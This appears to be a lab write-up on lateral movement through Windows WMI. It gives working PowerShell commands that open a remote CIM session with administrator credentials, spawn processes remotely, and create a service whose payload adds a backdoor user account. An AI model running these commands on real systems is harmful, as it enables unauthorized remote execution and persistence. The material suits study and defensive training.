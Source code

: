 WMI is Windows implementation of Web-Based Enterprise Management (WBEM), an enterprise standard for accessing management information across devices. 

In simpler terms, WMI allows administrators to perform standard management tasks that attackers can abuse to perform lateral movement in various ways.<br>

**Connecting to WMI From Powershell**<br>

Before being able to connect to WMI using Powershell commands, we need to create a PSCredential object with our user and password.
This object will be stored in the $credential variable and utilised throughout the techniques on this task:
```python
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```
There are two protocols when establishing a WMI session **DCOM** and **Wsman**.<br>
To establish a WMI session from Powershell, we can use the following commands and store the session on the $Session variable, which we will use directry.<br>
```python
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName TARGET -Credential $credential -SessionOption $Opt -ErrorAction Stop
```
**Remote Process Creation Using WMI**<br>
We can remotely spawn a process from Powershell by leveraging WMI, sending a WMI request to the Win32_Process class to spawn the process under the session we created before:
```python
$Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value lol";
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine = $Command}
```
**Creating Services Remotely with WMI**<br>
We can create services with WMI through Powershell. To create a service called LOLService, we can use the following command:
```python
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
Name = "LOLService";
DisplayName = "LOLService";
PathName = "net user lol Pass123 /add"; # Your payload
ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
StartMode = "Manual"
}
```
